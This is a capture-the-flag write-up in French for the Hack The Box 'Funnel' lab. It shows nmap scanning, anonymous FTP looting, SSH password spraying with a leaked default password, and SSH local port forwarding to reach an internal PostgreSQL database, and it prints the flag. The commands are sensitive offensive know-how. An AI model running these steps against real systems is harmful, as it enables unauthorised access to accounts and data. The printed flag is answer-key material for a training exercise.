




> Plateforme : **Hack The Box** — Starting Point (Tier 1)

## Informations

- **Catégorie :** Linux / Pivot réseau
- **Difficulté :** Very Easy
- **Auteur du write-up :** 3ch0
- **Services :** `21/tcp` (vsftpd 3.0.3, anonyme), `22/tcp` (OpenSSH 8.2p1)
- **Flag :** `cf277664b1771217d7006acdea006db1`

---

## 1. Reconnaissance

```bash
nmap -p- -sC -sV -T4 10.129.228.195
```

```text
21/tcp open  ftp  vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_          drwxr-xr-x  mail_backup
22/tcp open  ssh  OpenSSH 8.2p1 Ubuntu
```

FTP autorise le **login anonyme** et expose un dossier `mail_backup`.



---

## 2. FTP anonyme → fuite d'infos

```bash
ftp 10.129.228.195      # user: anonymous / pass: (vide)
```

```text
ftp> cd mail_backup
ftp> ls
-rw-r--r--  58899  password_policy.pdf
-rw-r--r--    713  welcome_28112022
ftp> get password_policy.pdf
ftp> get welcome_28112022
```

> `get mail_backup` échouait (`550 Failed to open file`) car c'est un **répertoire** : on y entre avec `cd`, puis on télécharge les fichiers un par un.

Les deux fichiers livrent tout :

```text
... the default password of "funnel123#!#" must be changed immediately.
```

```bash
cat welcome_28112022
```

```text
To: optimus@funnel.htb albert@funnel.htb andreas@funnel.htb christine@funnel.htb maria@funnel.htb
...
We have set up your accounts ... read through the attached password policy
```

On a donc une **liste d'utilisateurs** et un **mot de passe par défaut** (`funnel123#!#`) que certains n'auront pas changé.



---

## 3. Spray SSH → foothold

On teste le mot de passe par défaut sur chaque utilisateur (après avoir ajouté `funnel.htb` dans `/etc/hosts`) :

```bash
ssh christine@funnel.htb      # funnel123#!#
```

```text
christine@funnel:~$ id
uid=1000(christine) gid=1000(christine) groups=1000(christine)
```

`christine` n'a jamais changé le mot de passe par défaut → accès obtenu.


---

## 4. Repérer le service interne

```bash
ps aux | grep -E 'docker|postgres'
ss -tulnp
```

```text
docker-proxy ... -host-ip 127.0.0.1 -host-port 5432 -container-ip 172.17.0.2 -container-port 5432
tcp LISTEN 127.0.0.1:5432
```



Un **PostgreSQL** tourne dans un conteneur Docker, publié uniquement sur **`127.0.0.1:5432`**. Lié à localhost → **invisible de l'extérieur** (nmap ne le voyait pas). C'est là qu'est le flag.

---

## 5. Tunnel SSH (local port forwarding)

> **Quel type de tunnel ?** → **local port forwarding** (`ssh -L`). Le service est sur la cible et c'est nous qui voulons l'atteindre : on ouvre un port *local* (chez nous) redirigé vers un service distant. Le *remote forwarding* (`ssh -R`) ferait l'inverse (exposer un service de notre machine vers la cible).

Un service lié à `127.0.0.1` n'accepte que les connexions venant de la machine elle-même. Le tunnel SSH transporte notre trafic *dans* la connexion chiffrée jusqu'à la cible, qui le livre alors à son propre localhost — le service croit recevoir une connexion locale et l'accepte.

```text
ssh -L 5432:localhost:5432 christine@funnel.htb
      └──┬──┘ └────┬─────┘
   port chez nous   destination résolue DEPUIS la cible (localhost = funnel)
```

```text
[ psql (Kali) ] → 127.0.0.1:5432 (Kali)
        │  tunnel SSH chiffré (port 22)
        ▼
   [ funnel ] → localhost:5432 → PostgreSQL 
```

```bash
# terminal 1 : on monte le tunnel (laisser ouvert)
ssh -L 5432:localhost:5432 christine@funnel.htb

# terminal 2 : on parle à NOTRE port local, qui ressort sur le Postgres distant
psql -h 127.0.0.1 -p 5432 -U christine      # funnel123#!#
```

---

## 6. Flag dans PostgreSQL

```sql
\l                 -- bases : christine, postgres, secrets, template0/1
\c secrets         -- base intéressante
\dt                -- table : flag
SELECT * FROM flag;
```

```text
              value
----------------------------------
 cf277664b1771217d7006acdea006db1
```



**Flag :** `cf277664b1771217d7006acdea006db1`

---

## Récapitulatif

1. **FTP anonyme** → `mail_backup` : politique de mot de passe (défaut `funnel123#!#`) + liste d'utilisateurs.
2. **SSH** en `christine` avec le mot de passe par défaut non changé.
3. `ps`/`ss` → PostgreSQL interne sur `127.0.0.1:5432` (Docker).
4. **Local port forwarding** (`ssh -L`) → accès au Postgres.
5. Base `secrets`, table `flag` → flag.

> **Concept clé :** la box illustre deux fautes humaines et un réflexe d'attaquant. (1) Des **documents sensibles exposés en FTP anonyme** : une politique de mot de passe citant le mot de passe par défaut, plus la liste nominative des comptes, offrent directement un couple user/pass à tester. (2) Un **mot de passe par défaut jamais changé**. (3) Côté technique, le **port forwarding** : un service lié à `127.0.0.1` n'est pas « protégé », il est juste non routé depuis l'extérieur — un accès SSH suffit à le ramener à soi via `ssh -L`. On distingue le *local forwarding* (`-L`, atteindre un service distant depuis chez soi) du *remote forwarding* (`-R`, exposer un service local vers la cible) selon qui doit initier la connexion.

---

***— 3ch0***
